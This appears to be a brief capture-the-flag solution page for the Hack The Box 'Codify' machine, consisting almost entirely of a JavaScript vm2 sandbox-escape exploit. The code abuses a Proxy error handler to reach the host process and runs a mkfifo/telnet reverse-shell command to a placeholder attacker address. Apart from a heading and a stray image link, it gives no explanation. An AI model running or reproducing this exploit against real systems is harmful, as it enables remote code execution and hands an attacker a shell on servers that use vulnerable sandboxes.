# codify-HTB-solution
For Reverse Shell

'

const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("TF=$(mktemp -u);mkfifo $TF && telnet $YOUR_IP $PORT 0<$TF | /bin/bash 1>$TF");
}
`

console.log(vm.run(code));

'
